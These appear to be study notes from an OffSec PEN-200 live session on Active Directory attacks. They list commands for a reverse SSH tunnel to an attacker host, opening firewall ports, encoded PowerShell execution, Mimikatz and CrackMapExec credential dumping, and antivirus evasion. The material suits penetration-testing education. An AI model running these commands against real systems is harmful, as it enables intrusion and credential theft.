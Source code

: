 # OffSec Live: PEN-200

* **author**:: Nathan Acks  
* **date**:: 2022-08-31

## Active Directory Enumeration & Exploitation, Part 3

To use SSH as a generic SOCKS5 proxy, just use remote port forwarding.

```bash
# This command is run from the TARGET and connects back to the ATTACKER
# box. PORT on the ATTACKER box can then be used as a SOCKS5 proxy via
# proxychains, etc.
#
ssh -R $PORT $USER@$ATTACKER
```

To remember the difference between local and remote port forwarding, think of local port forwarding as connecting a port on the local machine to a remote service, while remote port forwarding connects a port on a remote machine to the local service - or SSH instance (if *only* a port is given)! Setting up SSH as a proxy doesn't make sense in the context of the local port forwarding, but can make sense for remote port forwarding.

(SSH port forwards are always read as `$FROM_MACHINE:$FROM_PORT:$TO_MACHINE:$TO_PORT`.)

Check Windows Firewall state:

```powershell
netsh advfirewall show currentprofile
```

See all Windows Firewall rules for inbound connections:

```powershell
netsh advfirewall firewall show rule dir=in name=all
```

Be aware that most built-in rules on Windows are bound to particular applications. But admins are lazy, and seldom bind custom rules to explicit applications. There's no 100% reliable way to identify such rules, but they'll often have obvious naming conventions.

See all Windows Firewall rules for outbound connections:

```powershell
netsh advfirewall firewall show rule dir=out name=all
```

In general you don't want to turn off the Windows Firewall, as doing so will generate a popup for any users currently logged into the machine.

Punch a hole in the Windows Firewall for ports 80, 443, and 4444:

```powershell
netsh advfirewall firewall add action=allow name=tunnel_in `
      dir=in protocol=tcp localport="80,443,4444"
netsh advfirewall firewall add action=allow name=tunnel_out `
      dir=out protocol=tcp localport="80,443,4444"
```

Encode a command to base64 in PowerShell:

```powershell
$Text = "$ONE_LINE_POWERSHELL_COMMAND"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText = [Convert]::ToBase64String($Bytes)
```

Run this using:

```powershell
powershell.exe -enc $EncodedText
```

See logged in users with PowerView.ps1:

```powershell
Get-NetLoggedon | select UserName
```

Mimikatz binaries are generally detected by AV on download these days, but fortunately there's a PowerShell reimplementation that can be run after bypassing AMSI.

```powershell
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"' > C:\mkat.txt
```

Note, however, that Microsoft Defender will still detect the execution of Invoke-Mimikatz and kill the hosting PowerShell process. This is why we need to redirect the output to a file.

AV can also by bypassed using CrackMapExec:

```bash
crackmapexec smb $TARGET_NETWORK/$TARGET_NETMASK \
	-u $TARGER_USER -p $CRACKED_PASSWORD --lsa 2> /dev/null
```

This only works if `$TARGET_USER` is an admin. If a user's password is currently in memory, CrackMapExec will dump this as well (so then you don't need to crack the hash!).

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
* [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
* [EmpireProject / Empire / data / module_source / credentials / Invoke-Mimikatz.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1)
